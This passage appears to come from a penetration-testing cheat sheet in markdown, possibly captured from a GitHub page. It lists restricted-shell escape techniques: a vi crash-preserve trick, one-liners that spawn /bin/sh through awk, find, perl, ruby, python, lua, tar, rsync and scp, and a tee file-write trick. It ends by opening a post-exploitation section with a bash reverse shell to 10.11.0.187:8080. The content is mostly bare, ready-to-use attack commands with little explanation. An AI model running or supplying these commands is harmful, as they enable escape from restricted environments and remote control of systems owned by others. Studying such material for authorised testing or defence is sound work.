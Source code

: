        :! /bin/bash
        : python

        # assumption that "[esc]:pre" uses /bin/mail to notify the user of a vi crash
        rbash # touch bin mail
        rbash # chmod 777 bin mail
        rbash # export IFS="/"
        rbash # vi
        [esc]:pre
        File preserved.
        [esc]:q!

        # open manual (with less)
        K
        ```
    * commands to try:
        ```
        awk 'BEGIN {system("/bin/sh")}'
        find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
        less, more, man with :!/bin/sh
        less with :e (examine)

        python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
        perl -e 'exec "/bin/sh";'
        perl: exec "/bin/sh";
        ruby: exec "/bin/sh"
        lua: os.execute('/bin/sh')
        irb(main:001:0> exec "/bin/sh"

        iptables --modprobe=<cmd>
        tar --checkpoint-action=<cmd>
        rsync -e <cmd>
        scp -S <command> a b:
        lynx !
        mail "~v"
        ```
    * write to file without echo -> tee
        ```
        echo "evil script code" | tee script.sh
        tee -a  # append
        ```
    * stuff from bash_profile are running before restricted shell
    * mirc32.exe -> /exec with cmd.exe (http://www.phrack.org/issues/69/4.html#article)
    * set handler for telnet:// uri in browser to cmd.exe
    * wine: `start /unix /bin/sh`

#### #Post exploitation
    * reverse shell (from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
        ```
        * bash
            bash -i >& /dev/tcp/10.11.0.187/8080 0>&1
